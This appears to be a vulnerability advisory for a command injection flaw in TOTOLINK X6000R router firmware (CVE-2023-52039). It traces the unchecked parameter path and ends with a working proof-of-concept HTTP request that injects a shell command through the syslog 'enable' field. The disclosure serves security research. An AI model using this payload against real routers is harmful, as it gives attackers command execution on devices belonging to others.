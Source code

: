 # TOTOLINK X6000R Command Execution Vulnerability

## Product infomation

Vendor of the product: https://www.totolink.net/

Product version: X6000R_Firmware V9.4.0cu.852_B20230719

Firmware download address: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html

## vulnablitity overview

In TOTOLINK X6000R V9.4.0cu.852_B20230719, the executable program shttpd’s sub_415AA4 function obtains a string through the Uci_Set_Str function without checking it, and passes it to the CsteSystem function, causing a command execution vulnerability.

## Analyse

In the binary file shttp, the function sub_415AA4 gets 'enable' parameter, and then passes them to the Uci_Set_Str.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/2/img/img1.png" alt="img1" style="zoom:67%;" />

In the binary file libcscommon.so, the function Uci_Set_Str calls the CsteSystem.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/2/img/img2.png" alt="img2" style="zoom:67%;" />

In CsteSytem, the command will be executed directly.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/2/img/img3.png" alt="img3" style="zoom:67%;" />

## Exploit

Access the web page that contains vulnerability and use Fiddler to capture packets.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/2/img/img6.png" alt="img6" style="zoom:67%;" />

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/2/img/img4.png" alt="img4" style="zoom:67%;" />

Replay after modifying the parameters of the traffic packet

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/2/img/img5.jpg" alt="img5" style="zoom:67%;" />

poc

```html
POST http://192.168.10.2/cgi-bin/cstecgi.cgi HTTP/1.1
Host:192.168.10.2
User-Agent:Mozilla/5.0 (X11; Ubuntu; Linux x86_64;rv:120.0) Gecko/20100101 Firefox/120.0
Accept:application/json, text/javascript, */*; q=0.01
Accept-Language:en-US,en;q=0.5
Accept-Encoding:gzip, deflate
Content-Type:application/x-www-form-urlencoded; charset=UTF-8
X-Requested-with:XMLHttpRequest
Origin:http://192.168.10.2
Connection:keep-alive
Referer:http://192.168.10.2/advance/syslog.html

{"enable":"`ls > /syslog_enable.txt`","topicurl":"setSyslogCfg"} 
```

before execute

![img7](https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/2/img/img7.png)

after execute

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/2/img/img8.png" alt="img8" style="zoom:67%;" />

The command was successfully executed.



## CVE-2023-52039